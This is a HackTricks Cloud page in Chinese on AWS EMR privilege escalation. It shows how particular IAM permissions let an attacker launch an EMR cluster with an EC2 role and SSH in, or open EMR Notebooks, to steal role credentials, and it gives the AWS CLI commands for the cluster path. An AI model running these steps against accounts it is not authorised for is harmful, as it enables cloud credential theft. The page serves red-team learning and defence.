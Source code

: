 # AWS - EMR Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EMR

更多关于 EMR 的 **信息**：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以 **运行一个新的 EMR 集群并附加 EC2 角色**，并尝试窃取其凭证。\
请注意，为了做到这一点，您需要 **知道在账户中导入的一些 ssh 私钥** 或导入一个，并能够 **在主节点上打开 22 端口**（您可能能够通过 `--ec2-attributes` 中的 `EmrManagedMasterSecurityGroup` 和/或 `ServiceAccessSecurityGroup` 属性来做到这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意如何在 `--service-role` 中指定 **EMR 角色**，以及在 `--ec2-attributes` 中指定 **ec2 角色**。然而，这种技术仅允许窃取 EC2 角色凭证（因为您将通过 ssh 连接），而无法获取 EMR IAM 角色。

**潜在影响：** 提升到指定的 EC2 服务角色。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

拥有这些权限的攻击者可以进入 **AWS 控制台**，创建一个 Notebook 并访问它以窃取 IAM 角色。

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭此权限，攻击者将能够访问 **Jupyter Notebook 并窃取与之关联的 IAM 角色**。\
Notebook 的 URL 是 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
